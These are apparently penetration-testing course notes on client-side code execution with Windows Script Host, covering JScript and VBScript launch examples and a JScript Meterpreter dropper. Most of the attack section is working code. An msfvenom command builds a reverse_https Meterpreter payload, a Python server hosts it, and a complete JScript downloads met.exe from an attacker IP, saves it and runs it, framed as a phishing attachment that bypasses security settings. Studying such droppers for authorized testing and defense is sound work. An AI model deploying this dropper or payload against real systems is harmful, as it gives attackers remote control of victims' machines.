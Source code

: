 ### Jscript on Windows 10
- Javascript attachments as alternative to Office VBA macros
- phishing attacks
- executing jscript outside a browser bypasses security settings

##### JS Script to open calc.exe
```js
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("calc.exe");
```

#### VBScript to open calc.exe
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "calc.exe"
Set objShell = Nothing
```

### JScript Meterpreter Dropper

- _MSXML2.XMLHTTP_ object, which is based on the Microsoft XML Core Services,[1](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-windows-script-host-14683/creating-a-basic-dropper-in-jscript-14719/jscript-meterpreter-dropper-15063#fn-local_id_490-1) and its associated HTTP protocol parser. This object provides client-side protocol support to communicate with HTTP servers. Although it is not documented, it is present in all modern versions of Windows.
- To summarize our code, we'll use the (_url_) variable to set the URL of the Meterpreter executable. Then we'll create a Windows Script _MSXML2.XMLHTTP_ object and call the _Open_ method on that object to specify a GET request along with the URL. Finally, we'll send the GET request to download the file.
- met.exe
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 EXITFUNCTION=thread -f exe -o met.exe
```
```Jscript
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

- start webserver on kali host `python3 -m http.server 80`
- met.js
```javascript
var url = "http://192.168.1.110/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```